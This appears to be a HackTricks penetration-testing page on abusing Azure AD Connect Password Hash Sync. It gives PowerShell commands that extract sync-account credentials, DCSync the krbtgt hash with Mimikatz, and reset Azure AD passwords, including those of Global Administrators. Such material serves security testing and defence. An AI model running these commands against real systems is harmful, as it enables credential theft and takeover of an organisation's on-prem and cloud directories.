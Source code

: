 # Az - PHS - Password Hash Sync

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Password hash synchronization** is one of the sign-in methods used to accomplish hybrid identity. **Azure AD Connect** synchronizes a hash, of the hash, of a user's password from an on-premises Active Directory instance to a cloud-based Azure AD instance.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It's the **most common method** used by companies to synchronize an on-prem AD with Azure AD.

All **users** and a **hash of the password hashes** are syncronized from the on-prem to Azure AD. However, **clear-text passwords** or the **original** **hashes** aren't sent to Azure AD.\
Moreover, **Built-in** security groups (like domain admins...) are **not synced** to Azure AD.

The **hashes syncronization** occurs every **2 minutes**. However, by default, **password expiry** and **account** **expiry** are **not sync** in Azure AD. So, a user whose **on-prem password is expired** (not changed) can continue to **access Azure resources** using the old password.

When an on-prem user wants to access an Azure resource, the **authentication takes place on Azure AD**.

**PHS** is required for features like **Identity Protection** and AAD Domain Services.

## Pivoting

When PHS is configured some **privileged accounts** are automatically **created**:

* The account **`MSOL_<installationID>`** is automatically created in on-prem AD. This account is given a **Directory Synchronization Accounts** role (see [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) which means that it has **replication (DCSync) permissions in the on-prem AD**.
* An account **`Sync_<name of on-prem ADConnect Server>_installationID`** is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.

Passwords of the two previous privileged accounts are **stored in a SQL server** on the server where **Azure AD Connect is installed.** Admins can extract the passwords of those privileged users in clear-text.\
The database is located in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

It's possible to extract the configuration from one of the tables, being one encrypted:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The **encrypted configuration** is encrypted with **DPAPI** and it contains the **passwords of the `MSOL_*`** user in on-prem AD and the password of **Sync\_\*** in AzureAD. Therefore, compromising these it's possible to privesc to the AD and to AzureAD.

You can find a [full overview of how these credentials are stored and decrypted in this talk](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

If the **server where Azure AD connect is installed** is domain joined (recommended in the docs), it's possible to find it with:

```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Abusing MSOL\_\*

```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Abusing Sync\_\*

Compromising the **`Sync_*`** account it's possible to **reset the password** of any user (including Global Administrators)

```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```

It's also possible to **modify the passwords of only cloud** users (even if that's unexpected)

```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

It's also possible to dump the password of this user.

{% hint style="danger" %}
Another option would be to **assign privileged permissions to a service principal**, which the **Sync** user has **permissions** to do, and then **access that service principal** as a way of privesc.
{% endhint %}

### Seamless SSO

It's possible to use Seamless SSO with PHS, which is vulnerable to other abuses. Check it in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
